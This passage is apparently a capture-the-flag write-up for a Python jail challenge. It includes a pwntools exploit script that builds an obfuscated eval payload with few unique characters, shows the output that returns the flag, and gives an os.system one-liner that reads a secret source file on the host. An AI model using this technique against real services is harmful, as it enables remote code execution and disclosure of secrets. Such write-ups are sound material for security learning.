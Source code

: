 It is wonderful !! The unique characters used is just `10`. Now you can run the following command: `print(flag)`

You can create the `explotit code` below.

```python
from pwn import *

conn = remote("canyouguessme.pwni.ng", 12349)

def make_payload(command):
	payload  = "eval("
	for i in command:
		payload += "chr("
		for j in range(0, ord(i)):
			payload += "all(chr(val))+"
		payload = payload[:-1]
		payload += ")+"
	payload = payload[:-1]
	payload  += ")"
	return payload


conn.recvuntil("Input value: ")
payload = make_payload("print(flag)")
conn.sendline(payload)

conn.interactive()
```

You can get the flag by executing the above code.

```
[+] Opening connection to canyouguessme.pwni.ng on port 12349: Done
[*] Switching to interactive mode
PCTF{hmm_so_you_were_Able_2_g0lf_it_down?_Here_have_a_flag}
Nope. Better luck next time.
[*] Got EOF while reading in interactive
$  
```

In addition, you can run `__import__("os").system("cat /home/guessme/secret.py")` to see `secret.py` as a whole.

## unintend solution

After the competition, I realized that there was an `unintend solution` through other people's write-ups. `help(flag)` and `print(vars())` both consist of less than 10 unique characters.

**help(flag)**
```

  ____         __   __           ____                     __  __       
 / ___|__ _ _ _\ \ / /__  _   _ / ___|_   _  ___  ___ ___|  \/  | ___  
| |   / _` | '_ \ V / _ \| | | | |  _| | | |/ _ \/ __/ __| |\/| |/ _ \
| |__| (_| | | | | | (_) | |_| | |_| | |_| |  __/\__ \__ \ |  | |  __/
 \____\__,_|_| |_|_|\___/ \__,_|\____|\__,_|\___||___/___/_|  |_|\___|



Input value: help(flag)
No Python documentation found for 'PCTF{hmm_so_you_were_Able_2_g0lf_it_down?_Here_have_a_flag}'.
Use help() to get the interactive help utility.
Use help(str) for help on the str class.

Nope. Better luck next time.
```
